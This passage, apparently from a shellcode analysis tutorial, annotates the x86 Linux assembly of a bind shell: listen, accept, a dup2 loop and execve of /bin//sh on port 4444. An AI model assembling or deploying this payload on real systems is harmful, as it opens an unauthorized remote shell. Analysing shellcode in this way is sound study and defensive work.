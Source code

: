 ### The third syscall

The third call is pretty easy to understand. The EBX register is set to 4, that
is the code for listen(2).

```asm
00000022  894104            mov [ecx+0x4],eax
00000025  B304              mov bl,0x4
00000027  B066              mov al,0x66
00000029  CD80              int 0x80
```

The listen(2) prototype is:

```c
#include <sys/types.h>          /* See NOTES */
#include <sys/socket.h>

int listen(int sockfd, int backlog);
```

### The fourth syscall

The fourth system call is just 3 lines of assembler.

```asm
0000002B  43                inc ebx
0000002C  B066              mov al,0x66
0000002E  CD80              int 0x80
```

We increment EBX that turns 5 and we invoke socketcall() again. This translates
into calling accept() on the given socket descriptor.

### The fifth syscall

After calling accept(), it has been called the dup2() system call since in EAX
the value of 0x3f it has been stored.

```asm
00000030  93                xchg eax,ebx
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
```

The call is in a loop because we want to duplicate standard input, output and
error that are mapped as file descriptors 0, 1 and 2.

### The last call

The last call is the execve() that it will serve the incoming connection to port 4444.

```asm
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```

